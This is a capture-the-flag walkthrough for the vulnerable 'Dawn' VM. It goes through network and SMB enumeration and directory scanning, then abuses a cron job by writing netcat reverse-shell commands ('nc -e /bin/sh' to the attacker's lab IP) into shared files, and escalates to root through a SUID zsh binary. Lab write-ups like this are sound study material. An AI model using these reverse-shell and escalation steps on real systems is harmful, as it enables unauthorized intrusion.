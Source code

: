

### **Netdiscover**

![discover](images/dawn/discover.png)

We use the tools called netdiscover scan hosts, we found the 192.168.0.107 is our target virtualbox host ip.

------

### **Namp**

![nmap](images/dawn/nmap.png)

We found some services  <u>HTTP</u>, <u>SMB</u>, <u>MYSQL</u> 

------

### Enum4linux

![enum4linux](images/dawn/enum4linux.png)

![user](images/dawn/user.png)

When we see smbd service , we use enum4linux scan smbd service config and basic infomation, we not found user but we find a smb share filefolder: <u>*IPC$*</u> , <u>ITDEPT</u> and user: <u>*dawn, ganimedes*</u>

------

### Smbclient

![samba](images/dawn/samba.png)

By using smbclient connect , We could found this existed **<u>web-control, product-control</u>**.

------

### Msf dir_scanner

![scan](images/dawn/scan.png)

At First, I intend to try a dict by kail linux to do a basic dir scanner, if not successfully , i will try a big dir dict by **gobuster** , luckily, we find /logs is existd.

------

### Solution

![dir](images/dawn/dir.png)

![log](images/dawn/log.png)


When we link to this <u>192.168.0.107/logs/</u>, We can find some file。By reading these files, this management.log is a log file,  we can find target host exists a crontab job chmod 777 product-control, web-control, so that we can reverse shell by these two file with samba share file folder.

`echo 'nc -e /bin/sh 192.168.0.105 2333' > web_product`

`echo 'nc -e /bin/sh 192.168.0.105 2334' > product_product`

wait a little time , then crontab job run.....

![shell1](images/dawn/shell1.png)

![shell2](images/dawn/shell2.png)


we use dawn users, we do some privilege escalate.

`find / -perm -u=s 2>/dev/null`

![find](images/dawn/find.png)

So we use /usr/bin/zsh to do it.

![ls2](images/dawn/ls2.png)

congratulation... then we go into /root, can see this flag. 

![flag](images/dawn/flag.png)

------

OS: Other ways,  i will append in my github if i can find themselves.T_T

------

**That' all , Thanks for your watching**
